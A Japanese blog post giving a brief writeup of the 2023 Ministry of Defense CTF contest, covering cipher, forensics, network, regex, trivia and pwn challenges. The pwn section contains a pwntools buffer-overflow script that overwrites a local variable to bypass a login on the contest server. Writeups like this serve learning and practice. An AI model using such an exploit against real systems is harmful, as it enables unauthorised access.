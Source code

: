 +++
title = "防衛省サイバーコンテスト2023 writeup"
date = "2023-8-6"
description = "2023/8/6似開催された防衛省サーバーコンテストのwriteupです。"
draft = false
header_img = ""
toc = true
tags = ["CTF","writeup"]
comment = true
+++

2023年8月6日に行われた防衛省が主催のCTF大会、防衛省サーバーコンテストに参加しました。  
難易度は中級〜上級といったところでしょうか。様々なジャンルの問題がありました。  
個人的には初めてPWNの問題を解くことができてめちゃくちゃ嬉しかったです。    
ただ、終了時間と同時に問題文すら見れなくなってしまったので、もう少し解けなかった問題の復習ができる時間とかを確保してくれたらとても嬉しかったです。  
wirteup用の問題文のスクショとかも撮ってなかったので、とっても簡易的なものになってます。

## CRYPT
### Simple Substitution Cipher
ROT13でした。

### Substitution Cipher
ヴィジュネル暗号でした。
問題文にあった、`ggcp{wIR2AuVebMyR}`は`flag{*******}`となるので鍵は`bvcj`となることがわかりました。

## Forensics
### The Place of The First Secret Meeting
画像が与えられます。問題文からてっきり後ろのマンションの名前を入れればいいと勘違いしてたのですが、どでかく存在しているやぐらの名前を入れれば良かったことに気づきました笑
→うしとらやぐら

### The Deleted Confidential File
vhdファイルが与えられます。
`Autopsy`を使ってvhdファイルを読み込んでみると、削除済みの一覧に`重要.zip`が見つかりました。バイナリエディタで見てみるとフラグが隠れていました。


## NW
### Analysis
2023/4/7 12:26:25,119970,10.200.200.15,TCP_TUNNEL/200,8099213,CONNECT,amazon_co_jp.ipa-info.net:22,HIER_DIRECT/2.57.80.99,-


## PROGRAMING
### Regex Exercise
`grep -E 'flag{Regexp.!![0-9]{2}S' regex-flags.txt `
としたら４択まで絞れました。

## TRIVIA
### Threat
ChatGPTに問題文を丸投げしたら答えてくれました。

### Behavior
同じくChatGPT

### Inventor
同じくChatGPT

## PWN
### Auth
はじめてPWNが解けました！  
めちゃくちゃ嬉しかったです。  
問題としてはBOFでローカル変数を書き換える問題。  
以下のようなコードを書きました。
```python
from pwn import *

ip = '10.10.10.15'
port = 1001
payload = b'a'*26
payload += p64(0x65757274)

r = remote(ip, port)

print(r.recvuntil(b'User: '))
usr = p64(0x6e696d6461)
print(r.sendline(usr))

print(r.recvuntil(b'Password: '))
print(r.sendline(payload))

res = r.recvall()
print(res)
```

## Web
### Basic
パケットキャプチャが与えられます。
TCPストリームの６番でBasic認証に `200 OK`を返しています。

